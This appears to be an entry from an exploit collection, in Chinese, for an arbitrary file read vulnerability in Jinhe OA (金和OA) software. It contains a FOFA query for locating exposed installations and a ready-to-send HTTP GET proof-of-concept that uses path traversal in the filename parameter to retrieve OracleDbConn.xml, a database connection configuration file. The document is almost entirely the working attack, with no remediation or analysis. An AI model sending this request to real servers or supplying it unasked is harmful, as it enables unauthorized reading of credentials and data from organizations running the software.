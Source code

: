# 金和OA任意文件读取漏洞

## 金和OA任意文件读取漏洞

## fofa
```
app="金和网络-金和OA"
```

## POC
```
GET /C6/JHSoft.WCF/FunctionNew/FileUploadMessage.aspx?filename=../../../C6/JhSoft.Web.Dossier.JG/JhSoft.Web.Dossier.JG/XMLFile/OracleDbConn.xml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

